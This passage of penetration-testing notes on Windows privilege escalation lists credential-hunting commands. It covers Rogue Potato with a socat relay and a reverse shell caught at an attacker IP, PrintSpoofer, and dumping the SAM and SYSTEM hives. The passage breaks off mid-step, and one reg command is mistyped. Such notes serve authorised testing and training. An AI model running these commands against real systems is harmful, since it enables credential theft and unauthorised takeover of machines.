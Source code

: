 ```

#### Scheduled Tasks
```
Get-ScheduledTask
schtasks /query /fo LIST -v
```
#### Password Hunting
```
findstr /si password *.txt
```
#### File Search
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
#### History
```
Get-History
```
```
(Get-PSReadlineOption).HistorySavePath
```
#### Env Variables
```
dir env:
```

### Escalation Paths

#### Kernel Exploits
- Run windowsexploitsuggester.py to ascertain if there may be any kernel exploits
- Google any results
- May find compiled binaries [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)

#### Token Impersonation
- Two types - delegation and impersonation
- If we see SEImpersonate as a result of whoami /priv we may be able to run an impersonate priv
- See more on this [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges)
##### Potato Attacks
- Abuses SEImpersonate also
###### Rogue Potato
- To do this we need to authenticate to our local machine and then proxy the traffic back to the victim using Socat using the following on the attacker machine
```
sudo socat tcp-listen:135,reuseaddr,fork tcp:<%tp.frontmatter.IP%>:9999
```
- Now execute the Roguepotato binary with the following making sure the listening port matches the forwarded port of the socat relay (in this case 9999). In this example shell.exe is a rev shell which we can catch with the elevated privs
```
potato.exe -r <Attacker_IP> -e "shell.exe" -l 9999
```

##### PrintSpoofer
- Also abuses SEImpersonate
```
printspoofer.exe -c "c:\users\shell.exe" -i
```
#### Dumping SAM Hashes
- If we have the permissions dump sam and system with the following
```
reg save hklm\sam sam
reg system hmlm\system system
```
- Convert to NTLM with 
```